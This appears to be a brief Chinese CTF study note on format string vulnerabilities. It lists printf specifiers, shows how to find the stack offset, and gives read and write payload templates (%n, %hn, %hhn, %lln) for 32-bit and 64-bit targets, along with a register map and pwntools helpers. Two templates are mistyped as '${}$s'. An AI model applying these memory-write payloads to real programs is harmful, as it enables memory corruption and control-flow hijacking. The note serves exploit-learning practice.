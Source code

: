 ```yaml
---
title: CTF | 格式化字符串漏洞
date: 2018-09-15 14:55:47
draft: true
---
```

关于格式化字符串漏洞
<!-- more -->
常见的格式
```
%d - 十进制 
%s - 字符串
%x - 十六进制 
%c - 字符
%p - 指针
%n - 当前print的字符数
```

通过AAAA%x%x%x%x%x 测试偏移


```

32位

读

'%{}$x'.format(index)           // 读4个字节
'%{}$p'.format(index)           // 同上面
'${}$s'.format(index)
写

'%{}$n'.format(index)           // 解引用，写入四个字节
'%{}$hn'.format(index)          // 解引用，写入两个字节
'%{}$hhn'.format(index)         // 解引用，写入一个字节
'%{}$lln'.format(index)         // 解引用，写入八个字节

////////////////////////////
64位

读

'%{}$x'.format(index, num)      // 读4个字节
'%{}$lx'.format(index, num)     // 读8个字节
'%{}$p'.format(index)           // 读8个字节
'${}$s'.format(index)
写

'%{}$n'.format(index)           // 解引用，写入四个字节
'%{}$hn'.format(index)          // 解引用，写入两个字节
'%{}$hhn'.format(index)         // 解引用，写入一个字节
'%{}$lln'.format(index)         // 解引用，写入八个字节

%1$lx: RSI
%2$lx: RDX
%3$lx: RCX
%4$lx: R8
%5$lx: R9
%6$lx: 栈上的第一个QWORD
```
当然可以使用pwntools中的fmtstr_payload ，不用自己手工构造，但是理解还是很有必要的。
测试程序格式化字符串的偏移地址：FmtStr

